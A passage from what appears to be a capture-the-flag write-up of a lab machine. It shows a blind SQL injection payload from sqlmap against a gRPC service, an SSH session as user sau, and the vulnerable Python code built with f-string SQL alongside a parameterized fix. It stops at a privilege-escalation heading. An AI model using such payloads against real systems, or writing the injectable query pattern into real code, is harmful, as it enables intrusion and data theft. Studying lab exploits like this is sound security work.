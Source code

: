 Looking at sqlmap verbose output this is how it did it:
```json
{"id":"-6907 OR SUBSTR((SELECT COALESCE(CAST(sql AS TEXT),CHAR(32)) FROM sqlite_master WHERE type=CHAR(116,97,98,108,101) AND tbl_name=CHAR(97,99,99,111,117,110,116,115) LIMIT 1),33,1)>CHAR(96)"}
```

```bash
ssh sau@10.10.11.214
sau@10.10.11.214's password:
Last login: Sun May 21 20:43:02 2023 from 10.10.16.76
sau@pc:~$
sau@pc:~$
sau@pc:~$
sau@pc:~$ pwd
/home/sau
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ wc -c user.txt
33 user.txt
```

Looking at `/opt/app/app.py` this is what got us in
```python
    async def getInfo(self, request, context):
        headers = dict(context.invocation_metadata())
        token = headers.get('token')
        user_id = middle.authorization(token)
        if user_id is True:
            try:
                result = cur.execute(f'SELECT message from messages where id = {request.id}').fetchone()[0]
                return app_pb2.getInfoResponse(message=f"{result}")
            except sqlite3.Error as er:
                return app_pb2.getInfoResponse(message=er)
        return app_pb2.getInfoResponse(message="Authorization Error.Missing 'token' header")
```

And this is how we could fix it
```python
    async def getInfo(self, request, context):
        headers = dict(context.invocation_metadata())
        token = headers.get('token')
        user_id = middle.authorization(token)
        if user_id is True:
            try:
                result = cur.execute('SELECT message from messages where id = ?', (request.id, )).fetchone()[0]
                return app_pb2.getInfoResponse(message=f"{result}")
            except sqlite3.Error as er:
                return app_pb2.getInfoResponse(message=er)
        return app_pb2.getInfoResponse(message="Authorization Error.Missing 'token' header")
```


## Privesc
